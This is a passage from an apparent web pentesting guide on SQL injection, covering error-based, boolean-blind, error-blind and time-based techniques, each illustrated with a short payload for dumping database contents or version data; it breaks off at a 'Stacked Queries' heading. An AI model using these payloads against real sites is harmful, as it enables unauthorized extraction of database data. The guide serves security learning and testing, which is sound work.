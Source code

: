 For more comprehensive insights, refer to the complete article available at [Healing Blind Injections](https://medium.com/@Rend_/healing-blind-injections-df30b9e0e06f).

## Exploiting Error based
---

If for some reason you **cannot** see the **output** of the **query** but you can **see the error messages**, you can make this error messages to **ex-filtrate** data from the database.\
Following a similar flow as in the Union Based exploitation you could manage to dump the DB.

```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
```

## Exploiting Blind SQLi
---

In this case you cannot see the results of the query or the errors, but you can **distinguished** when the query **return** a **true** or a **false** response because there are different contents on the page.\
In this case, you can abuse that behaviour to dump the database char by char:

```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```

## Exploiting Error Blind SQLi
---

This is the **same case as before** but instead of distinguish between a true/false response from the query you can **distinguish between** an **error** in the SQL query or not (maybe because the HTTP server crashes). Therefore, in this case you can force an SQLerror each time you guess correctly the char:

```sql
AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- -
```

## Exploiting Time Based SQLi
---

In this case there **isn't** any way to **distinguish** the **response** of the query based on the context of the page. But, you can make the page **take longer to load** if the guessed character is correct. We have already saw this technique in use before in order to [confirm a SQLi vuln](#confirming-with-timing).

```sql
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```

## Stacked Queries
---
